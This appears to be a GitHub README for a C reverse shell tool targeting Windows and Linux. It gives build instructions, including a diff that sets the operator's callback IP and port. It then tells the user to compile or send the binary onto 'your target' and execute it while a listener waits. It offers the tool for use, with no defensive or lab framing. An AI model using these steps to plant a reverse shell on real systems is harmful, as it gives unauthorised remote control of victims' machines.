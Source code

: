# c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` file is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change the `CLIENT_IP` and `CLIENT_PORT` in the file `reverse-shell.c` (lines 20 and 21):
```diff
 /* ================================================== */
 /* |      CHANGE THIS TO YOUR IP AND YOUR PORT      | */
 /* ================================================== */
-#define CLIENT_IP "0.0.0.0"
-#define CLIENT_PORT (int)0
+#define CLIENT_IP "XXX.XXX.XXX.XXX"
+#define CLIENT_PORT (int)XXXX
 /* ================================================== */
```


3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other Make rules:
- `make all`
- `make linux`
- `make windows`
- `make clean`
- `make re`

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
